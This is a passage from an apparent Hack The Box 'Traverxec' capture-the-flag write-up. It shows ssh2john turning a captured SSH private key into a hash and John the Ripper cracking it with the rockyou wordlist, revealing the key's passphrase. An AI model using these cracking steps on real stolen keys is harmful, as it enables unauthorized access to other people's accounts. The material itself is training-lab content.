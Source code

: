We try to crack the password of private key using  ***john***.  Before that we can extract the hash from private key using ***ssh2john*** commnad:

```bash	
dumbland () hgfs/hackthebox/traverxec :: /usr/share/john/ssh2john.py id_rsa-david
dumbland () hgfs/hackthebox/traverxec :: /usr/share/john/ssh2john.py id_rsa-david
david:$sshng$1$16$477EEFFBA56F9D283D349033D5D08C4F$1200$b1ec9e1ff7de1b5f5395468c76f1d92bfdaa7
f2f29c3076bf6c83be71e213e9249f186ae856a2b08de0b3c957ec1f086b6e8813df672f993e494b90e9de220828a
ee2e45465b8938eb9d69c1e9199e3b13f0830cde39dd2cd491923c424d7dd62b35bd5453ee8d24199c733d261a3a2
7c3bc2d3ce5face868cfa45c63a3602bda73f08e87dd41e8cf05e3bb917c0315444952972c02da4701b5da248f4b1
725fc22143c7eb4ce38bb81326b92130873f4a563c369222c12f2292fac513f7f57b1c75475b8ed8fc454582b1172
aed0e3fcac5b5850b43eee4ee77dbedf1c880a27fe906197baf6bd005c43adbf8e3321c63538c1abc90a79095ced7
021cbc92ffd1ac441d1dd13b65a98d8b5e4fb59ee60fcb26498729e013b6cff63b29fa179c75346a56a4e73fbcc8f
06c8a4d5f8a3600349bb51640d4be260aaf490f580e3648c05940f23c493fd1ecb965974f464dea999865cfeb3640
8497697fa096da241de33ffd465b3a3fab925703a8e3cab77dc590cde5b5f613683375c08f779a8ec70ce76ba8ecd
a431d0b121135512b9ef486048052d2cfce9d7a479c94e332b92a82b3d609e2c07f4c443d3824b6a8b543620c26a8
56f4b914b38f2cfb3ef6780865f276847e09fe7db426e4c319ff1e810aec52356005aa7ba3e1100b8dd9fa8b6ee07
ac464c719d2319e439905ccaeb201bae2c9ea01e08ebb9a0a9761e47b841c47d416a9db2686c903735ebf9e137f37
80b51f2b5491e50aea398e6bba862b6a1ac8f21c527f852158b5b3b90a6651d21316975cd543709b3618de2301406
f3812cf325d2986c60fdb727cadf3dd17245618150e010c1510791ea0bec870f245bf94e646b72dc9604f5acefb6b
28b838ba7d7caf0015fe7b8138970259a01b4793f36a32f0d379bf6d74d3a455b4dd15cda45adcfdf1517dca837cd
aef08024fca3a7a7b9731e7474eddbdd0fad51cc7926dfbaef4d8ad47b1687278e7c7474f7eab7d4c5a7def35bfa9
7a44cf2cf4206b129f8b28003626b2b93f6d01aea16e3df597bc5b5138b61ea46f5e1cd15e378b8cb2e4ffe7995b7
e7e52e35fd4ac6c34b716089d599e2d1d1124edfb6f7fe169222bc9c6a4f0b6731523d436ec2a15c6f147c40916aa
8bc6168ccedb9ae263aaac078614f3fc0d2818dd30a5a113341e2fcccc73d421cb711d5d916d83bfe930c77f3f99d
ba9ed5cfcee020454ffc1b3830e7a1321c369380db6a61a757aee609d62343c80ac402ef8abd56616256238522c57
e8db245d3ae1819bd01724f35e6b1c340d7f14c066c0432534938f5e3c115e120421f4d11c61e802a0796e6aaa5a7
f1631d9ce4ca58d67460f3e5c1cdb2c5f6970cc598805abb386d652a0287577c453a159bfb76c6ad4daf65c07d386
a3ff9ab111b26ec2e02e5b92e184e44066f6c7b88c42ce77aaa918d2e2d3519b4905f6e2395a47cad5e2cc3b7817b
557df3babc30f799c4cd2f5a50b9f48fd06aaf435762062c4f331f989228a6460814c1c1a777795104143630dc16b
79f51ae2dd9e008b4a5f6f52bb4ef38c8f5690e1b426557f2e068a9b3ef5b4fe842391b0af7d1e17bfa43e71b6bf1
6718d67184747c8dc1fcd1568d4b8ebdb6d55e62788553f4c69d128360b407db1d278b5b417f4c0a38b11163409b1
8372abb34685a30264cdfcf57655b10a283ff0
```

Save this in a file and crack them with ***john***:

```bash
dumbland () hgfs/hackthebox/traverxec :: sudo john david-john-key.txt -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
```



## Shell with david user
